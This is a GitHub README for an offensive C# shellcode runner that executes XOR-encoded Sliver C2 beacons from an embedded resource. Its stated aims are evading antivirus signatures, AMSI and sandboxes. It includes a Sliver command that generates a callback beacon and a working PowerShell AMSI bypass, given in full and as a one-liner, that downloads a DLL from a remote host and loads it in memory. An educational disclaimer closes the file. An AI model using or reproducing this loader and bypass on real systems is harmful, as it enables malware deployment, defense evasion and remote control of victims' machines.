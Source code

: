 # Sliver_C#_Runner_XoR

There is nothing special going on here; these are super basic methods. It has the same implementation as the Caesar, with different encoding.

## Introduction
This Digital Honk Project illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

## Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

## Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

## Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```bash
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

## Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

One Liner:
```powershell
try{[Ref].Assembly.GetTypes()|?{$_.Name -like "*iUtils"}|%{($c=$_).GetFields('NonPublic,Static')|?{$_.Name -like "*Context"}|%{$g=$_.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$ptr,1)}}; $data=(New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll'); $assem=[System.Reflection.Assembly]::Load($data); [honk.Program]::appleBits()}catch{Write-Error "An error occurred: $_"}finally{Write-Host "Press Enter to exit...";[Console]::ReadLine()}
```

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

Special thanks to the Sliver C2 framework for the payload generation capabilities.
Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
